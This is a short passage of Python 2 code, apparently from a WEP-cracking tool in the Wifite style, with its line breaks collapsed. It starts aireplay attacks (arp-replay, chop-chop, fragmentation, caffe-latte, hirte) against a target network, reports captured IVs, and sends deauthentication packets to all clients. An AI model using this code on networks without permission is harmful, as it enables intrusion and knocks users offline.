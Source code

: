 proc_aireplay = Popen(cmd, stdout=PIPE, stderr=PIPE) print '\r %s attacking "%s" via' % ( GR + sec_to_hms(self.RUN_CONFIG.WEP_TIMEOUT) + W, G + self.target.ssid + W), if attack_num == 0: print G + 'arp-replay', elif attack_num == 1: print G + 'chop-chop', elif attack_num == 2: print G + 'fragmentation', elif attack_num == 3: print G + 'caffe-latte', elif attack_num == 4: print G + 'p0841', elif attack_num == 5: print G + 'hirte', print 'attack' + W print ' %s captured %s%d%s ivs @ %s iv/sec' % ( GR + sec_to_hms(self.RUN_CONFIG.WEP_TIMEOUT) + W, G, total_ivs, W, G + '0' + W), stdout.flush() time.sleep(1) if attack_num == 1: # Send a deauth packet to broadcast and all clients *just because!* self.wep_send_deauths(self.iface, self.target, self.clients)